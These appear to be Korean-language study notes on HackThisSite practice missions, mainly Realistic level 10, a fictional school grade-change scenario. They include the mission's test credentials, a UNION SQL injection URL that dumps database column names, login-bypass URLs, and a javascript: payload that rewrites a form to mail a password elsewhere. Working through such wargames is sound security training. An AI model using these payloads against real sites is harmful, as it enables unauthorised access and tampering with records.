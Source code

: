 - 주의! "" 안에 '로 묶어주거나 ''없이 써줘야 한다.

## Level 10: Holy Word High School
### 문제 요약

#### 학점바꾸기
- ID: Zach Sanchez
- password: liberty638
- Student Access System 로그인창 sql injection x, but get방식
- `student.php?uusername=Zach Sanchez&ppassword=liberty638&action=viewgrades&course=Mathematics`
- bible study 2학기 fail, gym 2학기 fail

#### staff정보
- Mr. Jonathan Goodman Bible Study jgoodman@holycross.edu
- Mrs. Ann Feldman P.E.Health afeldman@holycross.edu

```
http://192.168.0.65/blind.php?id=1 union SELECT id,title,news from Anews union all select COLUMN_NAME,COLUMN_NAME,COLUMN_NAME from information_schema.COLUMNS
```
```
http://www.hackthissite.org/missions/realistic/10/student.php?uusername=Zach Sanchez;&ppassword=
```
```
http://www.hackthissite.org/missions/realistic/10/student.php?uusername=Jonathan Goodman;&ppassword=
```

```javascript
javascript:document.write("
<form action=/missions/basic/4/level4.php method=post>
  <input type=hidden name=to value=sam2@hsite.abc />
	<input type=submit value=Send password to Sam />
</form>
</center><br /><br />
<center><b>Password:</b><br />

<form action=/missions/basic/4/index.php method= post>
  <input type=password name=password  /><br /><br />
	<input type=submit value=submit /></form>")
```

- id=1번, id/pw 동일함
```
http://www.hackthissite.org/missions/realistic/10/student.php?uusername=Jonathan Goodman;&ppassword=
```

- 관리자로그인창: http://www.hackthissite.org/missions/realistic/10/staff.php

smiller / smiller

Welcome, Mrs. Samantha Miller! Please remember that access to the staff administration area is restricted to the district-supplied 'holy_teacher' web browser.
- 웹브라우저가 holy_teacher웹브라우저인 경우에만 접속 가능

